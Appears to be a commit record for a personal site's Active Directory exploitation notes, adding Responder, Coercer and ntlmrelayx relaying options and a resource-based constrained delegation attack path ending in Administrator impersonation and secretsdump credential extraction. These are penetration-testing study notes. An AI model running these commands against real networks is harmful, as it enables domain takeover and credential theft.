

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADExploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 6002 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
updated delegation notes

```diff
--- a/markdown/ADExploitation.md
+++ b/markdown/ADExploitation.md
@@ -214,10 +214,10 @@
 **Poisoning**
 - Poisoning is often your best friend on internals
   - Responder
-    - Run `sudo responder -I {network_interface}` to capture auth information
+    - Run `sudo responder -I {network_interface}` to respond to dns queries and host servers to capture the authentication sent
       - Can try to crack NTLMv2 hash
       - Can also relay it onwards to a server that doesn't have SMB signing
-        - If done, make sure to disable responder's SMB and HTTP servers in `/etc/responder/Responder.conf` since they both try to use SMB and HTTP
+        - If done, make sure to disable responder's SMB and HTTP servers in `/etc/responder/Responder.conf`, as we no longer want to be the server receiving the auth
   - Mitm6
     - Windows prefers IPv6 to IPv4 by default, and will send out IPv6 configuration requests regularly
     - `mitm6` responds to these requests and can work with `ntlmrelayx`
@@ -239,24 +239,50 @@
   - [https://github.com/p0dalirius/Coercer](https://github.com/p0dalirius/Coercer)
     - `sudo apt install coercer`
   - A useful tool which convinces Windows servers to authenticate somewhere using 12 methods
-    - Usage: `coercer coerce -u {domain_user} -p {password} -d {domain} -t {coercion_target_domain_IP} -l {listener_IP}`
+    - Usage: `coercer coerce -u {domain_user} -p {password} -d {domain} -t {coercion_target_domain_IP} -l {listener_IP} --always-continue`
   - This can come in very handy when we've already rooted one server and want to pivot, as we can use something like Rubeus to extract tickets from memory
     - Thus, we'd specify `-l` as the server we own
 
 **Relaying**
 - If the credentials can't be cracked, pair responder up with `ntlmrelayx`
-  - `ntlmrelayx.py -t {protocol_like_ldaps}://{dc_ip}`
-    - `smb` can give different errors and depends on signing, which is why we used ldap
-    - `-c "{command}"` will execute a command as the user
-    - `--interactive` can drop us into an LDAP shell
-    - Use `--remove-mic` with LDAP to downgrade NTLM's Message Integrity Check
+  - `ntlmrelayx.py -t {protocol_like_ldaps}://{target_ip} -socks`
+    - `smb` can be used against servers that don't have signing:
+      - `ntlmrelayx.py -tf {smb_no_signing_ips} -socks`
+    - `-socks` will create a socks proxy to forward traffic along using the captured authentication
+      - Thus, we add `socks4 127.0.0.1 1080` to `/etc/proxychains4.conf` and then can run commands as though we had a powershell session as the user
+        - For example, we can run `secretsdump.py -no-pass` where normally a password would need to be specified
+    - `-c "{command}"` will execute a command as the user, whereas `--interactive` can drop us into a shell on the respective protocol (SMB/LDAP/SQL)
+    - Use `--remove-mic` with LDAP to downgrade NTLM's Message Integrity Check (aka to relay SMB info to an open LDAP port)
     - `-6` for listening for IPv6 with `mitm6`
+    - `--keep-relaying` will continue to relay to all targets even if we've already tried one hash on them
+      - This can come in very handy when there are multiple hashes found by responder (especially if one is much more rare)
+    - `--add-computer {name} {password}` will attempt to add a new computer via SMB/LDAP
+      `--delegate-access` will provide the target computer with delegation access to the the computer specified
 - Kerberos relay with `krbrelayx.py`
   - [https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)
   - Not like traditional relaying, since tickets and service keys are cryptographically bound together
   - If a user has `unconstrained delegation`, we can use this to pivot
     - A client authenticating to a service with unconstrained delegation allows forwarding of the full TGT, meaning we can impersonate the user to any other service
   - Abuse workflow (outlined [here](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/))
+
+## Delegation
+- Resource-based Constrained Delegation (RBCD) is basically allowing one entity to perform some action on behalf of another user
+- It's very useful for giving granular permissions, for example if a service user needs to access only some resources on behalf of another user
+- Alice delegating to Bob means that Bob can request Kerberos tickets and access services on behalf of Alice
+
+**Abusing Delegation to a Machine We Control**
+- `ntlmrelayx` supports providing delegation to our owned computer accounts with `--delegate-access`
+  - This means that the target computer will delegate to our newly-created computer
+- An example attack path:
+  - Coerce a computer to authenticate to us (or gather relayable credentials in some manner):
+    - `coercer coerce -l {our_IP} -t {target_IP} --always-continue -u {username} -p {password}`
+  - Set up `ntlmrelayx` to add a computer to the domain using the relayed credentials which the coerced machine has delegation rights over:
+    - `ntlmrelayx.py -t ldaps://{dc_IP} -smb2support --remove-mic --add-computer {new_computer_name} --delegate-access`
+  - Use new computer to request a TGS from the machine's Administrator via our new delegation
+    - `getST.py -spn HOST/{target_machine_name}.{domain} -impersonate Administrator -dc-ip {dc_ip} '{domain}/{new_computer_name}:{new_computer_pass}'`
+  - Use the valid TGS to extract secrets from the target machine:
+    - `export KRB5CCNAME=./Administrator.ccache; secretsdump.py -k -no-pass {domain}/Administrator@{target_ip}`
+
 
 ## Getting execution with credentials or hashes
 - Shells:
```
